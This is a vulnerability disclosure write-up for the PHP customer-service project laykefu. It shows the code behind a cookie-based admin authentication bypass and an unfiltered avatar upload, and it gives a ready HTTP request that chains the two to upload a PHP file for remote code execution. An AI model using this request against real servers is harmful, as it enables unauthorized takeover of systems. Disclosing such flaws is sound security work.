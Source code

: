 ## Source code introduction

Development language: PHP
Development framework: ThinkPHP5.0.24
Project address: https://github.com/shmilylbelva/laykefu

## code analysis
### Authentication bypass vulnerability

The vulnerability file is in "application/admin/controller/Base.php", and the vulnerability code is as follows:

```
class Base extends Controller
{
    public function _initialize()
    {
        if(empty(cookie('user_name'))){
            $this->redirect(url('login/index'));
        }

        $this->assign([
            'version' => config('version')
        ]);
    }
}
```
As you can see, when the "user_name" value in the cookie is not empty, it will not jump to login.
To verify the vulnerability, we use the browser plug-in "ModHeader - Modify HTTP headers", set the cookie value to "user_name=1", and access the backend address to directly enter the backend.
The demonstration process is as shown below. If you can’t see clearly, please check the original picture.
![image](images/demo.gif)

### File upload
The vulnerability file is in the "upAvatar()" function under "application/admin/controller/Users.php". The vulnerability code is as follows:

```
public function upAvatar()
{
    if(request()->isAjax()) {

        $file = request()->file('file');
        if (!empty($file)) {
            // 移动到框架应用根目录/public/uploads/ 目录下
            $info = $file->move(ROOT_PATH . 'public' . DS . 'uploads');
            if ($info) {
                $src = '/uploads' . '/' . date('Ymd') . '/' . $info->getFilename();
                return json(['code' => 0, 'data' => ['src' => $src], 'msg' => 'ok']);
            } else {
                // 上传失败获取错误信息
                return json(['code' => -1, 'data' => '', 'msg' => $file->getError()]);
            }
        }
    }
}
```
It can be seen that there is no filtering of uploaded files. This method requires logging in to the administrator. However, by combining the above identity authentication bypass vulnerability, login restrictions can be bypassed and dangerous files (php files) can be uploaded to the server.
Construct a request packet to send a data packet.

```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/2.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
The file was successfully uploaded to the target server. The demonstration picture is as follows:
![image](images/1.png)

Then access the uploaded file and successfully RCE.
![image](images/2.png)
